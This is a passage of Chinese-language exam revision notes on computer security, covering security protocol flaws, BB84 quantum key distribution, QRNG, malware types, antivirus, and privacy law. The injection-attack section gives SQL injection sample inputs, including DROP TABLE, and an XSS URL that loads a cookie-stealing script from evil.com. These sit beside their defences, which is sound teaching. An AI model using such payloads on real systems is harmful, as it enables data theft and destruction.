| 4 | **nonce 有没有被正确回显？** | A 发了 N_a，最后一步有没有 N_a 回来证明对方确实解密了？ |
| 5 | **会不会会话混淆？** | nonce 是否绑定了当前会话？攻击者能不能把 A→I 会话的 nonce 拿去 I→B 会话用？ |

### [8.2] 真题分析

**2025 Q4(c)** — K_a 是 A 的公钥：

```
1. A → B: N_a
2. B → A: N_b
3. A → B: {k_ab, A, N_b}_{K_a}    ← 问题在这
4. B → A: {N_a}_{k_ab}
```

- 检查点 1 命中：K_a 是 A 的公钥 → 加密后**只有 A 能解密**，B 解不开，拿不到 k_ab
- 修复：改成用 **B 的公钥** → $\{k_{ab}, A, N_b\}_{K_b}$

**Mock Q4(c)** — K_b 是 B 的公钥：

```
1. A → B: N_a
2. B → A: N_b
3. A → B: {k_ab, A, N_b}_{K_b}
4. B → A: {N_a}_{k_ab}
```

- 加密对象对了（K_b，B 能解密），但：
- 检查点 2 命中：Msg 3 **没有签名**——K_b 是公钥，**任何人都能生成** $\{k, A, N_b\}_{K_b}$。B 无法确认这是 A 发的还是攻击者伪造的
- 修复：A 用**自己的私钥签名**后再用 K_b 加密 → $\{\{k_{ab}, A, N_b\}_{sk_A}\}_{K_b}$

### [8.3] 常见漏洞速查

| 漏洞 | 识别特征 | 修复方向 |
|------|----------|----------|
| **加密方向错误** | 用自己公钥加密发出去 | 改用接收方公钥 |
| **缺少身份** | 消息里只有 key/nonce 没有身份名 | 加入发送方/接收方 ID |
| **缺少签名** | 用对方公钥加密但没有自己签名 | 先签名再加密 |
| **无新鲜性** | 没有 nonce/时间戳 | 加入 nonce 或 timestamp |
| **nonce 不匹配** | 最后一步回的 nonce 和初始不同 | 确保 nonce 链条闭合 |


# 量子密码学与量子计算 (Quantum Cryptography & Quantum Computing)

## [1] 量子力学基础 (QM Basics)

### [1.1] 波粒二象性 (Wave-Particle Duality)

经典物理中，"子弹"（粒子, Particle）和"波"（Wave）是截然不同的。但电子表现出**波粒二象性 (Wave-Particle Duality)**——既像粒子又像波。量子力学 (Quantum Mechanics, QM) 由此产生。

### [1.2] 核心原理：叠加态 (Superposition)

> 一个粒子可以**同时处于多个状态的叠加 (Superposition)**。

例如：电子可以同时处于"位置 1"和"位置 2"的叠加态 (Superposition State)。

**关键性质**：
- 粒子特性最佳描述为**基态值 (Base Values) 的叠加**
- 当**测量 (Measurement)** 时，叠加态**坍缩 (Collapse)** 为单一确定状态 (Definite State)
- 测量**不可逆 (Irreversible)**——测量前的叠加信息永久丢失

> **对量子密码学至关重要的性质**：你无法在不干扰系统的情况下测量系统 (you cannot measure the system without disturbing it)。任何窃听 (Eavesdropping) 必然留下痕迹！

### [1.3] 量子比特 (Qubit)

| 概念 (Concept) | 说明 (Description) |
|------|------|
| **量子比特 (Qubit)** | 具有两个离散基态 $|0\rangle$ 和 $|1\rangle$ 的量子系统 |
| **叠加态 (Superposition)** | $a|0\rangle + b|1\rangle$，其中 $a, b$ 是**复数 (Complex Number)**（称为**振幅 Amplitude**） |
| **测量概率 (Measurement Probability)** | 测量得到 $|0\rangle$ 的概率为 $|a|^2$，得到 $|1\rangle$ 的概率为 $|b|^2$ |

**例子**：电子通过 H₁ 或 H₂ 的概率各为 $\frac{1}{2}$，则状态为 $\frac{1}{\sqrt{2}}|H_1\rangle + \frac{1}{\sqrt{2}}|H_2\rangle$

### [1.4] 测量与基 (Measurement & Basis)

- **测量 (Measurement)** = 将量子态投影 (Project) 到某个**基 (Basis)** 上
- **基 (Basis)** 定义了"可以观察到什么"
- 同一量子系统可以以**多种不同的基**描述
- 用**错误的基**测量 → 结果是随机的 (Random)，原始信息丢失


## [2] BB84 量子密钥分发 (Quantum Key Distribution, QKD) <small>★ 考试重点</small>

> Charles H. Bennett & Gilles Brassard, 1984  
> (荣获 2023 年 Turing Award)

### [2.1] 核心承诺

BB84 协议保证：
- **要么**分发的密钥绝对安全 (Perfectly Secure)
- **要么**通信双方发现有人在窃听 → 不使用该密钥

### [2.2] 双通道架构 (Two-Channel Architecture)

Alice 和 Bob 使用**两条**通道：

| 通道 (Channel) | 用途 | Eve 能做什么 |
|------|------|-------------|
| **量子通道 (Quantum Channel)** | 传输偏振光子 (Polarized Photons) | 可以窃听，但窃听必然留下痕迹 |
| **经典公共通道 (Classical Public Channel)** | 比对基、估算错误率 | 只能监听（不影响量子态） |

### [2.3] 偏振态与基 (Polarization & Bases)

BB84 使用**光子的偏振 (Photon Polarization)** 编码信息，定义了两个基，每个基内有一对正交状态 (Orthogonal States)：

| 基 (Basis) | 符号 | 表示 0 | 表示 1 |
|----|------|--------|--------|
| **直线基 (Rectilinear)** | **+** | → (水平, Horizontal) | ↑ (垂直, Vertical) |
| **对角基 (Diagonal)** | **×** | ↗ (右上45°) | ↘ (右下45°) |

> **关键规则**：用正确的基测量 → 得到确定结果；用错误的基测量 → 得到**随机**结果。






### [2.4] 协议步骤

```
Step 1: Alice 随机选择四种偏振态之一，逐个发送光子给 Bob		[量子通道]
Step 2: Bob 随机选择 + 或 × 基测量每个光子                 	 [量子通道]
Step 3: Bob 公开他用了哪些基（但不公开测量结果）				 [公共通道]
Step 4: Alice 告诉 Bob 哪些位置的基选对了					 [公共通道]
Step 5: 双方丢弃基不匹配的位置 → 剩余约 50%
Step 6: 剩余位置 → 形成原始密钥 (Raw Key)
Step 7: 公开比较一小部分 key → 估算错误率 (Error Rate)
Step 8: 错误率 > 阈值 (Threshold) → 有窃听！丢弃，重来
        错误率 ≈ 0   → 通过隐私放大 (Privacy Amplification) 提取最终密钥
```

| 步骤 | 谁做什么 | 通道 |
|------|----------|------|
| 1 | Alice 随机偏振，发送光子 | 量子 |
| 2 | Bob 随机选基，测量光子 | 量子 |
| 3 | Bob 公布他用的基序列 | 公共 |
| 4 | Alice 指出哪些位置基相同 | 公共 |
| 5 | 双方丢弃基不同的位置 | — |
| 6 | 剩余位 → raw key | — |
| 7 | 公开比较部分位，算错误率 | 公共 |
| 8 | 错误率高 → 重来；低 → 保留 | — |

### [2.5] 安全性分析 <small>★ 考试最爱</small>

#### 公共通道 (Classical Channel)：Eve 听到了什么？

Step 3-4 通过公共通道公开的是**基的类型 (Basis Type)**、**哪些位置保留**，但从未公开 bit 本身。

```
Step 3: Bob 公开："位置 1~8 我用的基: +, ×, +, +, ×, ×, ×, +"
Step 4: Alice 公开："1, 4, 5, 6 基一样，保留；其余扔掉"

Eve 知道：位置 1 的基是 +，Alice 和 Bob 都用了 +
Eve 不知道：Alice 在位置 1 发了 →(0) 还是 ↑(1)？
          Bob 测到了 →(0) 还是 ↑(1)？
          猜中概率 = 50%，和瞎猜没区别
```

> 类比：两人抛硬币，遮住结果。公开说"3号我们都用了左手接"→ 保留3号。旁观者知道他们用了左手，但硬币正反永远不知道。

#### 量子通道 (Quantum Channel)：为什么 Eve 窃听必然被检测？

先理解核心物理：**一个光子 (Photon) = 一次测量 → 测了就毁了。**

```
偏振关系:
  + 基的世界：只有 → (水平) 和 ↑ (垂直)
  × 基的世界：只有 ↗ (右上45°) 和 ↘ (右下45°)

  ↗ 不是 → 也不是 ↑——它由 → 和 ↑ "各50%合成"
  用 + 基去测 ↗ → 强制它选边站 → 50% →, 50% ↑ → 随机坍缩
```

**具体窃听过程 (Eavesdropping Trace)**（追踪一个光子）：

```
Alice: 发 ↗ (×基, bit=0)     ← 确定态

Eve 截获, 猜 + 基测量:
  ↗ 在 + 基下 = 叠加 → 坍缩 → 假设坍成 ↑
  Eve 读出 bit=1, 以为 Alice 发了 ↑
  原来的 ↗ 消失了!

Eve: 重发 ↑ 给 Bob (她只能重发她测到的)

Bob 用 × 基测 ↑:
  ↑ 在 × 基下 = 叠加 → 随机坍缩 → 假设坍成 ↘
  Bob 读出 bit=1

Alice bit=0, Bob bit=1 ✗ 不一致！
```

**25% 错误率 (Error Rate) 是怎么来的？**（只在 Alice-Bob 基匹配的位上计算）

```
Eve 猜基:
  ┌─ 50% 猜对 → 完美复制 → Bob 结果 = Alice → 错误率 0%
  │
  └─ 50% 猜错 → 光子被毁 → Bob 收到"污染"光子
                    → Bob 测错基态的光子 → 50%对, 50%错
                    → 错误率 50%

总错误率 = 0.5×0% + 0.5×50% = 25%
```

**如何检测？** — 牺牲一小部分 bit 公开对比：

```
保留 100 bit raw key → 随机挑 20 个公开对比:

  无 Eve: 20 个全对 → 错误率 0% → 剩下 80 个继续用
  有 Eve: ~5 个不一样 → 错误率 ~25% → 全部丢弃, 重来!
```

> **BB84 防被动攻击原理（考试 2025 Q2(a)，10 分）**：
> 被动攻击 (Passive Attack) = 只偷看不干预。经典网络中可以静默复制信号。量子力学中 **"看"本身就是测量 (Measurement)，测量就改变量子态 (Quantum State)**——Eve 每窃听一个光子就有 50% 概率猜错基 → 光子被毁 (Destroyed) → Bob 收到错误 → Alice 和 Bob 通过牺牲少量比特 (Check Bits) 公开对比发现高错误率 → 检测到窃听。BB84 将**不可检测的被动攻击 (Undetectable Passive Attack)** 转化为了**可检测的主动干扰 (Detectable Active Interference)**。

### [2.6] 实际部署

| 年份 | 机构 | 里程碑 |
|------|------|--------|
| 2006 | Los Alamos 实验室 | 光纤量子通道，184.6 km |
| 2006 | Los Alamos 实验室 | 自由空间（空气），>10 km |
| 2012 | 慕尼黑大学 | 与飞行器 (>20 km, 300 km/h) 量子密钥交换 |
| 2015 | 意大利/中国航天 | 卫星量子通信，>1000 km |
| 商用 | ID Quantique | 商业化 QKD 和 QRNG 产品 |


## [3] 量子随机数生成 (Quantum Random Number Generation, QRNG) <small>★ Mock Q3(a)</small>

### [3.1] 经典方案的问题

| 方案 | 问题 |
|------|------|
| **伪随机生成器 (Pseudo-Random Number Generator, PRNG)** | 确定性算法 (Deterministic)，知道种子 (Seed) 就能预测 |
| **经典真随机 (热噪声等)** | 仍可能带偏差 (Bias)，可靠性靠统计检验 (Statistical Tests) |

### [3.2] QRNG 工作原理

核心思路：**故意让制备基和测量基不同** → 必然随机。

```
Step 1: 激光打晶体 → 发射光子，故意制备成确定态 (如 + 基的 →)

Step 2: 故意用 × 基去测 → 这个 → 在 × 基眼里 = 叠加 (↗ + ↘)
        → 随机坍缩 → 50% ↗ / 50% ↘ → 哪个? 不可预测

Step 3: 探测器 A 响 (↗) → 记录 0
        探测器 B 响 (↘) → 记录 1

Step 4: 后处理纠偏 (如 01→0, 10→1, 00/11→丢弃) → 均匀分布真随机数

循环: 一个光子用完即毁 → 持续打新光子 → 每秒百万到亿次 → 源源不断
```

> 如果制备基 = 测量基 → 100% 确定 (不是 QRNG)。QRNG 故意基错位——制备是确定的，测量是错位的，结果不可预测。与 BB84 相反：BB84 追求基匹配来传密钥，QRNG 故意基不匹配来产生随机。

### [3.3] QRNG vs 经典方案

| | 经典方案 | QRNG |
|------|----------|------|
| **随机性来源 (Source)** | 物理噪声 (Physical Noise)，可能带偏差 | **量子测量不确定性 (Quantum Uncertainty)——根本性随机 (Fundamental Randomness)** |
| **可预测性 (Predictability)** | 伪随机可预测；经典 TRNG 难以保证 | **从根本上不可预测 (Intrinsically Unpredictable)** |
| **验证 (Verification)** | 仅靠统计检验 | 部分 QRNG 支持 **self-testing**（无需信任硬件） |
| **成本 (Cost)** | 低 | 高，主要用于高安全场景 |

### [3.4] 优缺点 (Pros & Cons)

**优点 (Advantages)**：
- 量子根本性随机 (Fundamental Randomness)，非确定性 (Non-deterministic)
- 部分方案支持 self-testing

**缺点 (Disadvantages)**：
- 更复杂、更昂贵 (More Complex & Expensive)
- 主要用于高安全场景 (High-security Applications)


## [4] 量子黑客攻击 (Quantum Hacking) <small>了解</small>

> 理论上 BB84 绝对安全，但**实践中**攻击者可以走出假设范围 (Assumptions)。

**大脉冲攻击 (Large Pulse Attack, ~2001)**：
- 不是被动监听量子通道
- 而是用**大功率激光 (High-power Laser)** 照射 Bob 或 Alice 的设备
- 通过**反射光子 (Reflected Photons)** 推断对方的基选择设置
- 针对性攻击设备实现 (Implementation) 而非协议 (Protocol) 本身

> 核心教训：**协议的安全证明 (Security Proof) ≠ 实现的安全 (Implementation Security)。**


## [5] 量子计算与密码分析 (Quantum Computing & Cryptanalysis)

### [5.1] 为什么量子计算强大？

经典计算机 (Classical Computer)：信息以确定性的 0 或 1 表示和处理。  
量子计算机 (Quantum Computer)：信息可以叠加 (Superposition)、纠缠 (Entanglement)，以**经典世界没有对应物**的方式操作。

### [5.2] 关键算法

| 算法 | 年份 | 能力 | 对密码学的威胁 |
|------|------|------|---------------|
| **Shor 算法 (Shor's Algorithm)** | 1994 | 高效分解大整数 (Factor Large Integers)，复杂度 $O(\log N^3)$ | **直接摧毁 RSA**——大数分解变成多项式时间 (Polynomial Time) |
| **Grover 算法 (Grover's Algorithm)** | 1996 | 搜索空间从 $N$ 降到 $\sqrt{N}$ | **削弱对称加密**——暴力破解 (Brute Force) AES-256 降为等效 AES-128 |
| **量子纠错 (Quantum Error Correction)** | 持续发展 | 朝可扩展 (Scalable)、容错 (Fault-tolerant) 量子计算迈进 | 让上述算法真正可运行 |

### [5.3] 后量子时代 (Post-Quantum Era)

- RSA 依赖大数分解 (Integer Factorization) 困难性 → Shor 算法将使其**彻底作废**
- AES 等对称算法 (Symmetric Encryption)：Grover 只能平方根加速 → **加倍密钥长度**即可抵抗（AES-128 → AES-256）
- 后量子密码学 (Post-Quantum Cryptography, PQC) 正在标准化，寻找量子计算机也难解的数学问题（如格密码 Lattice-based Cryptography）


## [6] 考试要点

| 考点 | 来源 | 分值 |
|------|------|:--:|
| **BB84 如何防御被动攻击 (Passive Attack)** — 测量必然干扰量子态，窃听引入错误可被检测 | 2025 Q2(a) | 10 |
| **量子密码学对被动攻击的影响** — 原本不可检测 (Undetectable) 的被动攻击变成可检测 | Mock Q2(a) | 8 |
| **QRNG 优缺点 (Advantages & Disadvantages)** — 根本性随机 vs 昂贵复杂 | Mock Q3(a) | 5 |


# 恶意程序与攻击对策 (Malicious Programs & Countermeasures) 

> 两套往年试卷均无相关考题。了解即可。

## [1] 恶意程序分类 (Taxonomy of Malicious Programs)

### [1.1] 陷门/后门 (Trapdoor / Backdoor)

**秘密入口**——绕过正常安全检查进入程序。开发调试时合法使用，但被恶意利用即构成威胁。

> Ken Thompson 1984 图灵奖演讲：修改 C 编译器可植入几乎无法发现的陷门。**"你不能信任你没有完全自己创建的代码。"**

### [1.2] 逻辑炸弹 (Logic Bomb)

嵌入合法程序中的代码，**满足特定条件时引爆**：
- 特定文件存在/不存在
- 特定日期/时间
- 特定用户运行程序

引爆后：修改/删除数据、导致宕机等。案例：Tim Lloyd (1996) — 造成超 $1000 万损失。

### [1.3] 特洛伊木马 (Trojan Horse)

看似有用（或貌似有用）的程序，内含**隐藏有害功能**的代码。用户主动运行 → 触发恶意行为。

案例：Zeus trojan (2007-) — 感染数百万台计算机。

### [1.4] 僵尸 & 僵尸网络 (Zombies & Botnets)

| 概念 | 说明 |
|------|------|
| **僵尸 (Zombie)** | 秘密接管他人计算机，用于发动攻击（难以追溯） |
| **僵尸网络 (Botnet)** | 大规模协调的僵尸集合 |
| 用途 | DDoS 攻击、发送垃圾邮件 |
| 案例 | BredoLab botnet (2009-2010) — 感染 >3000 万台 |

### [1.5] 病毒 (Virus)

**"感染"其他程序的程序**——修改目标程序并植入自身副本，依附于宿主程序执行。

**典型生命周期 (Virus Phases)**：

| 阶段 | 说明 |
|------|------|
| **休眠期 (Dormant)** | 病毒处于空闲状态 |
| **传播期 (Propagation)** | 将自身副本植入其他程序/磁盘系统区域 |
| **触发期 (Triggering)** | 满足条件后激活 |
| **执行期 (Execution)** | 执行恶意功能 |

**F. Cohen (1980s-90s)**：病毒检测问题在一般情况下**不可判定 (Undecidable)**。

**宏病毒 (Macro Virus)**：利用 Word/Office 宏功能——宏 = 嵌入文档的可执行程序。打开文件自动触发。
- 案例：**Melissa 病毒 (1999)** — MS Word 宏邮件附件 → 打开后发送给通讯录所有人 + 本地破坏。

### [1.6] 蠕虫 (Worm)

利用**网络连接主动传播**，很多情况下**无需用户参与**。

传播手段：邮件、远程执行、远程登录、即时通讯（2005 年起：MSN、AOL messenger）。

| 案例 | 年份 | 影响 |
|------|------|------|
| **Morris Worm** | 1988 | 首个网络蠕虫；无意破坏但因过度复制使数千台机器瘫痪数天；Morris 被判有罪 |
| **Blaster** | 2003 | Air Canada 延误航班，铁路系统停运，军事基地受影响 |
| **SQL Slammer** | 2003 | 10 分钟内感染 90% 以上的易受攻击主机 |

---

## [2] 反病毒技术 (Antivirus Approaches)

**四级防护流程**：预防 (Prevention) → 检测 (Detection) → 识别 (Identification) → 清除 (Removal)

### [2.1] 四代反病毒软件

| 代 | 名称 | 做法 | 局限 |
|----|------|------|------|
| **1st** | 简单扫描器 (Simple Scanner) | 匹配病毒签名 (Signature) | 只能检测**已知病毒** |
| **2nd** | 启发式扫描器 (Heuristic Scanner) | 启发式规则 + 完整性校验 (Checksum / Hash) | 可能误报 |
| **3rd** | 活动陷阱 (Activity Trap) | 内存驻留，在运行时识别病毒**行为**而非签名 | 需定义行为集合 |
| **4th** | 综合防护包 (Full-featured) | 扫描 + 活动陷阱 + 控制能力，结合 IDS / 防火墙 | — |

---

## [3] 蠕虫检测 (Worm Detection)

**关键挑战**：速度——SQL Slammer 在 10 分钟内感染全网。

### [3.1] 蠕虫监控系统

```
本地扫描监控器 → 数据混合器 → 数据混合器 → 预警中心
 (Monitors)     (Data Mixers)             (Warning Center)
```

树状结构，逐级汇总。

### [3.2] 检测方法

| 方法 | 说明 |
|------|------|
| **基于阈值 (Threshold-based)** | 检测网络流量**突发 (Bursts)** |
| **基于趋势 (Trend-based)** | 利用蠕虫早期**指数传播 (Exponential Propagation)** 特性 |

---

## [4] 注入攻击 (Insertion Attacks) <small>了解</small>

> 用户输入被当作代码执行。

### [4.1] SQL 注入 (SQL Injection)

**原理**：查询由用户输入拼接构造 → 输入含 SQL 代码 → 被数据库执行。

```
正常输入: 456 → SELECT data FROM table WHERE field = '456'
恶意输入: 456 OR x = x → 返回整张表
         DROP TABLE _table_ → 删除表
```

**防御 (Countermeasures)**：

| 方法 | 说明 |
|------|------|
| **参数化查询 (Parameterized Query)** | 查询结构提前固定，用户输入只当数据 |
| **正模式匹配 (Positive Pattern Matching)** | 只允许"好"字符串 |
| **输入类型检查/清理 (Input Sanitizing)** | 过滤恶意字符 |

### [4.2] 跨站脚本 (Cross Site Scripting, XSS)

**原理**：HTML 页面直接嵌入用户输入 → 输入含 `<script>` 标签 → 浏览器执行恶意脚本。

```
http://searchsite.org/search?q=<script src="evil.com/steal.js"></script>
```

用途：窃取凭证、劫持 Web 会话 (Session Hijacking)。

**防御 (Countermeasures)**：

| 方法 | 说明 |
|------|------|
| **输入清理 (Input Sanitization)** | 将 `<`, `>`, `"`, `'`, `&` 替换为 HTML 实体 (`&lt;`, `&gt;` 等) |
| **输出编码 (Output Encoding)** | 输出用户数据时根据上下文 (HTML/JS/URL) 正确编码 |
| **CSP (Content Security Policy)** | HTTP 头限制哪些脚本可执行，阻止内联脚本和未知来源 |
| **HttpOnly Cookie** | 标记 cookie 为 HttpOnly → JavaScript 无法读取 → 防 Session 窃取 |


# 隐私与安全的法律问题 (Legal & Social Issues) 

> 两套往年试卷均无相关考题。了解即可。

## [1] 密码学法律规制 (Legal Restrictions on Cryptography)

### [1.1] 专利制度 (Patent System)

早期密码协议受专利法影响：

| 算法 | 专利到期 |
|------|----------|
| **Diffie-Hellman 密钥交换** | 1997 年 |
| **RSA 加密算法** | 2000 年 |

> 专利保护的副作用：**减少发明的使用**。

### [1.2] 商业秘密法 (Trade Secret Law)

过去许多算法作为**专有秘密 (Proprietary Secret)** 保护。思路：算法保密 = 额外安全层。

**专家反对**：
- 成功算法很难保密
- 隐藏缺陷被发现太晚 → 例：DVD 内容的 **CSS (Content Scramble System)** 算法

### [1.3] 密码学监管动机

| 层面 | 动机 |
|------|------|
| **国内** | 加密可隐藏犯罪活动；强加密使搜查令失效 |
| **国际** | 强加密使军事/经济竞争者无法破译 |

### [1.4] 美国监管历程

| 时期 | 政策 |
|------|------|
| **1980s** | 出口需特殊许可证，费时费钱 |
| **1992** | 加密程序可自由出口但**密钥 ≤ 40 位** |
| **1992-1996** | **Clipper Chip** — 托管加密标准，政府持有后门密钥 |
| **2000.1** | 新规：经技术审查后可向非恐怖主义国家出口**任意密钥长度**的产品 |

### [1.5] Clipper Chip 问题

防篡改芯片，每个有唯一 ID + 分类加密算法 + 政府后门。1997 年密码学家报告：**"政府的加密计划是冒险且不切实际的"**。

潜在问题：内部滥用、新漏洞、认证困难、成本高。

### [1.6] 国际协议

| 协议 | 内容 |
|------|------|
| **Wassenaar Arrangement (1996-)** | 允许大众市场软件出口；允许保护知识产权的加密产品出口 |
| **Council of Europe Rec. 95(13)** | 密码学使用建议 |
| **EU Council Reg. 1334/2000** | 欧盟内部出口无限制；向其他国家出口可能需要授权 |

### [1.7] 数字版权管理 (DRM)

**DMCA (Digital Millennium Copyright Act, US 1998)**：将**规避版权保护的技术**定为犯罪。

争议：**Dmitry Sklyarov 案 (2001)** — 版权保护 vs 密码分析研究的合法性？  
EU：Copyright Directive (2001)


## [2] OECD 隐私指南 (OECD Privacy Guidelines, 1980)

> 目的：协调工业化国家日益增多的隐私法规，应对**跨境数据流 (Transborder Data Flows)** 问题。共 8 条原则。**不具法律效力**，但被成员国（30 国，含 UK）采用为指导。

| # | 原则 (Principle) | 内容 |
|:--:|------|------|
| 1 | **收集限制 (Collection Limitation)** | 收集应有限制，通过合法公正方式获取 |
| 2 | **数据质量 (Data Quality)** | 数据应与用途相关、准确、完整、保持更新 |
| 3 | **目的明确 (Purpose Specification)** | 收集时明确目的，后续使用不超过该目的 |
| 4 | **使用限制 (Use Limitation)** | 除数据主体同意或法律授权外，不得另作他用 |
| 5 | **安全保障 (Security Safeguards)** | 合理保护数据免于丢失、未授权访问、破坏等 |
| 6 | **公开性 (Openness)** | 对数据相关做法和政策保持公开透明 |
| 7 | **个人参与 (Individual Participation)** | 个人有权获取、质疑、更正自己的数据 |
| 8 | **问责制 (Accountability)** | 数据控制者 (Data Controller) 对合规负责 |

---

## [3] GDPR 与 UK Data Protection Act

| 法规 | 说明 |
|------|------|
| **EU Directive 95/46/EC** | 原欧洲数据保护指令 |
| **GDPR** (2018.5.25 起) | 取代 95/46/EC 的通用数据保护条例 |
| **UK Data Protection Act 2018** | UK 对 GDPR 的国内实施 |

**GDPR 核心权利与概念**：

| 概念 | 说明 |
|------|------|
| **被遗忘权 (Right to Erasure)** | 个人可要求删除其个人数据 |
| **数据可携权 (Data Portability)** | 个人可将其数据从一个服务商转移到另一个 |
| **明确同意 (Explicit Consent)** | 数据处理须基于数据主体明确、知情的同意 |
| **数据泄露通知 (Breach Notification)** | 72 小时内通知监管机构和受影响个人 |
| **Privacy by Design** | 系统设计之初就嵌入隐私保护，而非事后补救 |
| **巨额罚款** | 最高可达全球年营收的 **4%** 或 2000 万欧元 (取高者) |


